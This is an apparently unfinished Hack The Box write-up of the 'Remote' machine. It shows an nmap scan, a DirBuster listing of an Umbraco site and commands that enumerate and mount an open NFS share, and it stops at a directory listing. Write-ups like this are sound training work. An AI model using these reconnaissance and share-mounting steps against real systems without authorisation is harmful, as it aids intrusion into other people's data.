










# HTB - Remote

## Overview



Short description to include any strange things to be dealt with

TODO: finish writeup, add images, clean up...wow my notes were bad on this one!

## Useful Skills and Tools

### Connect to and mount a remote network file share - port 2049

* `showmount -e 10.10.10.180`to show NFS shares 
* `mkdir /tmp/remote` to make a local folder to mount the remote drive to
* `mount 10.10.10.180:/site_backups /tmp/remote` to mount the available share directory onto the host machine.

#### Useful thing 2

description with generic example

## Enumeration

### Nmap scan

I started my enumeration of this machine with an nmap scan of `10.10.10.180`. The options I regularly use are: `-p-`, which is a shortcut which tells nmap to scan all TCP ports, `-sC` runs a TCP connect scan, `-sV` does a service scan, `-oA <name>` saves all types of output \(`.nmap`,`.gnmap`, and `.xml`\) with filenames of `<name>`.

```text
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-05 09:38 EDT
Nmap scan report for 10.10.10.180
Host is up (0.051s latency).

PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp   open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Home - Acme Widgets
111/tcp  open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
2049/tcp open  mountd        1-3 (RPC #100005)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 4m25s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-07-05T13:43:43
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 102.49 seconds
```

21/tcp open ftp 80/tcp open http 111/tcp open rpcbind 135/tcp open msrpc 139/tcp open netbios-ssn 445/tcp open microsoft-ds 2049/tcp open nfs

### Port 21 - FTP

Port 21 for FTP was open so I tried to login  using anonymous access. I was able to connect, but the folder is empty. 

### Port 80 - HTTP



Acme widgets product page

### Dirbuster

```text
DirBuster 1.0-RC1 - Report
http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project
Report produced on Sun Jul 05 12:10:29 EDT 2020
--------------------------------

http://10.10.10.180:80
--------------------------------
Directories found during testing:

Dirs found with a 200 response:

/
/products/
/people/
/about-us/
/contact/
/intranet/
/blog/
/blog/another-one/
/umbraco/
/about-us/about-this-starter-kit/
/products/biker-jacket/
/about-us/todo-list-for-the-starter-kit/
/blog/this-will-be-great/
/1111/
/products/unicorn/
/blog/my-blog-post/
/products/ping-pong-ball/
/products/jumpsuit/
/home/
/Blog/
/Contact/
/Home/
/blog/Blog/
/People/
/Products/
/contact/Contact/
/umbraco/Default/
/umbraco/Default/assets/
/umbraco/Default/lib/
/people/People/
/products/Products/

Dirs found with a 403 response:

/umbraco/assets/
/App_Plugins/
/App_Plugins/Terratype.GoogleMapsV3/
/umbraco/assets/img/
/umbraco/assets/img/application/
/App_Plugins/Terratype.GoogleMapsV3/scripts/
/umbraco/lib/
/umbraco/lib/rgrove-lazyload/
/App_Plugins/Terratype.GoogleMapsV3/Images/
/umbraco/Members/
/App_Plugins/Terratype.GoogleMapsV3/Scripts/
/umbraco/Search/

Dirs found with a 500 response:

/about-us/Blog/
/about-us/Contact/
/people/Blog/
/people/Contact/
/blog/Contact/
/blog/this-will-be-great/Blog/
/products/Blog/
/about-us/Home/
/products/biker-jacket/Blog/
/products/jumpsuit/Blog/
/products/ping-pong-ball/Blog/
/blog/this-will-be-great/Contact/
/products/Contact/
/products/jumpsuit/Contact/
/intranet/Blog/
/products/ping-pong-ball/Contact/
/blog/another-one/Blog/
/products/biker-jacket/Contact/
/about-us/about-this-starter-kit/Blog/
/people/Home/
/contact/Blog/
/products/unicorn/Blog/
/intranet/Contact/
/about-us/about-this-starter-kit/Contact/
/blog/another-one/Contact/
/blog/Home/
/products/unicorn/Contact/
/blog/this-will-be-great/Home/
/about-us/todo-list-for-the-starter-kit/Blog/
/about-us/People/
/about-us/todo-list-for-the-starter-kit/Contact/
/products/ping-pong-ball/Home/
/about-us/Products/
/products/jumpsuit/Home/
/products/Home/
/blog/my-blog-post/Blog/
/products/biker-jacket/Home/
/intranet/Home/
/blog/another-one/Home/
/products/unicorn/Home/
/people/Products/
/contact/Home/
/about-us/about-this-starter-kit/Home/
/blog/my-blog-post/Contact/
/blog/People/
/blog/Products/
/blog/this-will-be-great/People/
/blog/this-will-be-great/Products/
/about-us/todo-list-for-the-starter-kit/Home/
/products/People/
/products/jumpsuit/People/
/products/ping-pong-ball/People/
/products/jumpsuit/Products/
/products/ping-pong-ball/Products/
/contact/People/
/contact/Products/
/blog/my-blog-post/Home/
/products/biker-jacket/People/
/intranet/People/
/products/biker-jacket/Products/
/about-us/about-this-starter-kit/People/
/blog/another-one/People/
/intranet/Products/
/about-us/about-this-starter-kit/Products/
/products/unicorn/People/
/blog/another-one/Products/
/products/unicorn/Products/
/about-us/todo-list-for-the-starter-kit/People/
/about-us/todo-list-for-the-starter-kit/Products/
/blog/my-blog-post/People/
/blog/my-blog-post/Products/


--------------------------------
Files found during testing:

Files found with a 200 responce:

/1111.aspx
/scripts/umbraco-starterkit-app.js
/App_Plugins/Terratype.GoogleMapsV3/scripts/Terratype.GoogleMapsV3.Renderer.js
/App_Plugins/Terratype.GoogleMapsV3/scripts/markerclusterer.min.js
/umbraco/lib/rgrove-lazyload/lazyload.js
/umbraco/Application
/Blog.aspx
/Contact.aspx
/Default.aspx
/Home.aspx
/People.aspx
/Products.aspx
/contact/Contact.aspx
/blog/Blog.aspx
/App_Plugins/Terratype.GoogleMapsV3/README.txt
/App_Plugins/Terratype.GoogleMapsV3/Readme.txt
/people/People.aspx
/products/Products.aspx

Files found with a 500 responce:

/blog/my-blog-post/Blog.aspx
/intranet/Blog.aspx
/contact/Blog.aspx
/blog/this-will-be-great/Blog.aspx
/blog/my-blog-post/Contact.aspx
/people/Blog.aspx
/intranet/Contact.aspx
/blog/this-will-be-great/Contact.aspx
/people/Contact.aspx
/products/unicorn/Blog.aspx
/blog/another-one/Blog.aspx
/blog/my-blog-post/Home.aspx
/about-us/about-this-starter-kit/Blog.aspx
/blog/another-one/Contact.aspx
/blog/Contact.aspx
/about-us/Blog.aspx
/contact/Home.aspx
/products/biker-jacket/Blog.aspx
/products/Blog.aspx
/products/jumpsuit/Blog.aspx
/blog/this-will-be-great/Home.aspx
/products/unicorn/Contact.aspx
/people/Home.aspx
/intranet/Home.aspx
/products/ping-pong-ball/Blog.aspx
/about-us/about-this-starter-kit/Contact.aspx
/about-us/todo-list-for-the-starter-kit/Blog.aspx
/products/biker-jacket/Contact.aspx
/about-us/Contact.aspx
/products/jumpsuit/Contact.aspx
/products/Contact.aspx
/products/ping-pong-ball/Contact.aspx
/about-us/todo-list-for-the-starter-kit/Contact.aspx
/blog/Home.aspx
/products/unicorn/Home.aspx
/blog/another-one/Home.aspx
/contact/People.aspx
/contact/Products.aspx
/about-us/Home.aspx
/products/Home.aspx
/about-us/about-this-starter-kit/Home.aspx
/blog/my-blog-post/People.aspx
/blog/this-will-be-great/People.aspx
/blog/my-blog-post/Products.aspx
/products/biker-jacket/Home.aspx
/products/jumpsuit/Home.aspx
/blog/this-will-be-great/Products.aspx
/intranet/People.aspx
/products/ping-pong-ball/Home.aspx
/intranet/Products.aspx
/about-us/todo-list-for-the-starter-kit/Home.aspx
/people/Products.aspx
/blog/People.aspx
/products/unicorn/People.aspx
/blog/Products.aspx
/blog/another-one/People.aspx
/products/unicorn/Products.aspx
/blog/another-one/Products.aspx
/products/jumpsuit/People.aspx
/products/biker-jacket/People.aspx
/about-us/todo-list-for-the-starter-kit/People.aspx
/about-us/about-this-starter-kit/People.aspx
/products/jumpsuit/Products.aspx
/products/biker-jacket/Products.aspx
/about-us/about-this-starter-kit/Products.aspx
/about-us/todo-list-for-the-starter-kit/Products.aspx
/products/People.aspx
/about-us/People.aspx
/products/ping-pong-ball/People.aspx
/about-us/Products.aspx
/products/ping-pong-ball/Products.aspx

Self-enumerated
--------------------------------
umbraco/create.aspx
```

Dirbuster found a huge list of standard Umbraco directories and files, as well as a lot of random product and blog pages.

A search for Umbraco vulnerabilities led me to [https://www.acunetix.com/vulnerabilities/web/umbraco-cms-remote-code-execution/](https://www.acunetix.com/vulnerabilities/web/umbraco-cms-remote-code-execution/) which described a way to get remote code execution.



This led me to the page  `http://10.10.10.180/umbraco/webservices/codeEditorSave.asmx`, which should not exist on the production server.  

[https://blog.gdssecurity.com/labs/2012/7/3/find-bugs-faster-with-a-webmatrix-local-reference-instance.html](https://blog.gdssecurity.com/labs/2012/7/3/find-bugs-faster-with-a-webmatrix-local-reference-instance.html)



rabbit hole?^



Navigating to `/umbraco` redirected me to a login page at `http:10.10.10.180/umbraco/#/login.asp`.

After reading through the documentation, I tried the admin password reset found at [https://our.umbraco.com/packages/developer-tools/umbraco-admin-reset/](https://our.umbraco.com/packages/developer-tools/umbraco-admin-reset/) - looked interesting, but didn't work.

### Port 2049 - NFS

since rpc is open and showing mountd service on port 2049: 

* [https://resources.infosecinstitute.com/exploiting-nfs-share](https://resources.infosecinstitute.com/exploiting-nfs-share)

```text
zweilos@kali:~/htb/remote$ showmount -e 10.10.10.180
Export list for 10.10.10.180:
/site_backups (everyone)

zweilos@kali:~/htb/remote$ mkdir /tmp/remote
zweilos@kali:~/htb/remote$ sudo mount -t nfs 10.10.10.180:/site_backups /tmp/remote
```

Using the `showmount -e` command I was able to export the folders that were available to connect to, and list who could connect.  This share was available for everyone.  I obliged myself to the open share and mounted it to a local folder using the `mount` command.

```text
zweilos@kali:~$ cd /tmp/remote
zweilos@kali:~$ df -k
Filesystem                 1K-blocks     Used Available Use% Mounted on
udev                         4033876        0   4033876   0% /dev
tmpfs                         812860     1156    811704   1% /run
/dev/sda1                   53407072 22346224  28318220  45% /
tmpfs                        4064284   341640   3722644   9% /dev/shm
tmpfs                           5120        0      5120   0% /run/lock
tmpfs                        4064284        0   4064284   0% /sys/fs/cgroup
tmpfs                         812856       28    812828   1% /run/user/1000
10.10.10.180:/site_backups  31119360 12312576  18806784  40% /tmp/remote
zweilos@kali:/tmp/remote$ ls -la                                                                     
total 123                                                                                               
drwx------  2 nobody 4294967294  4096 Feb 23 13:35 . 
drwxrwxrwt 25 root   root        4096 Jul  5 12:01 ..
drwx------  2 nobody 4294967294    64 Feb 20 12:16 App_Browsers
drwx------  2 nobody 4294967294  4096 Feb 20 12:17 App_Data
drwx------  2 nobody 4294967294  4096 Feb 20 12:16 App_Plugins
drwx------  2 nobody 4294967294    64 Feb 20 12:16 aspnet_client
